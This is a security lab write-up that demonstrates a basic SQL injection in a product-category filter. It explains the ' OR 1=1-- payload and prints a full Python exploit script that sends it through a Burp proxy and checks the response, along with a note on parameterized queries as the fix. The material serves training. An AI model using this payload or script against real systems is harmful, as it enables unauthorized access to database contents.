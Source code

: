 ```yaml
---
title: 'SQLi Lab 1'
description: 'Exploiting a basic SQL injection vulnerability to retrieve hidden data.'
---
```



## SQL Injection in WHERE Clause Reveals Hidden Products

<div style="text-align: justify;">
  In this lab, I explored how a simple SQL injection (SQLi) vulnerability in the `WHERE` clause of an SQL query can lead to information disclosure. By injecting a classic `' OR 1=1--` payload into a URL parameter, I was able to bypass category filters and extract all records from the database. Despite its simplicity, this technique is highly effective when user inputs are not properly sanitized.

  This exercise reinforced how even the most basic SQLi attack vectors can severely undermine application logic, especially in web apps that rely on direct input embedding into database queries. It’s a reminder that developers must use parameterized queries or ORM-based access to prevent such issues.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The app filters products based on the `category` parameter in the URL.
- This value is directly embedded into the SQL `WHERE` clause.
- No sanitization or parameterization is performed.
- The injected payload `' OR 1=1--` forces the condition to always evaluate true.
- The server responds with **all** products in the database.
- The script confirms success by searching for a known product name in the response.

<Aside>
  You may need to update the product name `"Folding Gadgets"` in the script, depending on the lab instance.
</Aside>

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    uri = '/filter?category='
    r = requests.get(url + uri + payload, verify=False, proxies=proxies)
    if "Folding Gadgets" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = "'+OR+1=1--"
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com' % sys.argv[0])
        sys.exit(-1)
        
    if exploit_sqli(url, payload):
        print("[+] SQL injection successful!")
    else:
        print("[-] SQL injection unsuccessful")
```


<Comment />
